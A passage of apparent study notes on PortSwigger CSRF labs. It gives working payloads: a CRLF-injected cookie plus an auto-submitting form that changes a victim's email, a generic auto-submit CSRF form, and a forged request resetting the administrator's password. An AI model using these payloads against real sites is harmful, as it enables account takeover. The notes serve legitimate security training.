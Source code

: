 [PortSwigger Lab: CSRF where token is tied to non-session cookie](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)

#### CSRF duplicated in cookie

> In the target we _**identify**_ that the CSRF key token is duplicated in the cookie value. Another _**indicator**_ is the cookie `LastSearchTerm` contain the value searched. By giving search value that contain `%0d%0a` we can inject an **end of line** and **new line** characters to create new CSRF cookie and value.

> In the exploit code `img src` tag we set cookie for csrf to fake.

```html
<html>
  <body>
    <form action="https://TARGET.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="ATTACKER&#64;EXPLOIT-SERVER&#46;NET" />
      <input type="hidden" name="csrf" value="fake" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://TARGET.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

[PortSwigger Lab: CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie)

#### CSRF Token Present

> Changing the value of the `csrf` parameter result in change email request being **rejected**. Deleting the CSRF token allow the change email to be **accepted**, and this _**identify**_ that the validation of token being present is vulnerable.

> CSRF PoC Payload hosted on exploit server:

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="$param1name" value="$param1value">
</form>
<script>
    document.forms[0].submit();
</script>
```

[PortSwigger Lab: CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present)

#### Is Logged In

> If cookie with the **isloggedin** name is _**identified**_, then a refresh of admin password POST request could be exploited. Change username parameter to administrator while logged in as low privilege user, CSRF where token is not tied to user session.

```html
POST /refreshpassword HTTP/1.1
Host: TARGET.net
Cookie: session=%7b%22username%22%3a%22carlos%22%2c%22isloggedin%22%3atrue%7d--MCwCFAI9forAezNBAK%2fWxko91dgAiQd1AhQMZgWruKy%2fs0DZ0XW0wkyATeU7aA%3d%3d
Content-Length: 60
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://TARGET.net
Content-Type: application/x-www-form-urlencoded
```